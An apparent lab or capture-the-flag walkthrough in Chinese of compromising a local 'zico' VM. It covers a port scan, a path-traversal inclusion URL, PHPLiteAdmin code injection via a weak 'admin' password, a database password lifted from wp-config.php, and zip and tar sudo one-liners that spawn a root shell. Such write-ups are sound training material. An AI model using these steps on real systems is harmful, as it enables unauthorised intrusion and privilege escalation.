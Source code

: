 ## port scan

```
# Nmap 7.94SVN scan initiated Sun Jan 19 04:43:38 2025 as: nmap -sT --min-rate=10000 -p- -oN port 192.168.56.139
Nmap scan report for 192.168.56.139 (192.168.56.139)
Host is up (0.021s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
46216/tcp open  unknown
```

## web

存在文件包含漏洞

```
http://192.168.56.139/view.php?page=../../../../../usr/databases/1.php
```

存在`PHPLiteAdmin 1.9.3 - Remote PHP Code Injection`

```
http://192.168.56.139/dbadmin/test_db.php
```

登陆密码弱口令`admin`

创建数据库后缀.php

![image-20250119185259322](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250119185259322.png)

![image-20250119185344470](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250119185344470.png)

创建字段，Default Value为一句话

![image-20250119185433104](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250119185433104.png)

## 提权

```
Linux zico 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

内核提权

```
searchsploit linux kernel 3.2 -m 33589
```

**sudo提权（tar或zip）**

在zico家目录的wordpress目录找到wp-config.php

拿到数据库账号密码，发现是该用户密码`sWfCsfJSPV9H3AmQzw8`

```bash
zico@zico:~$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

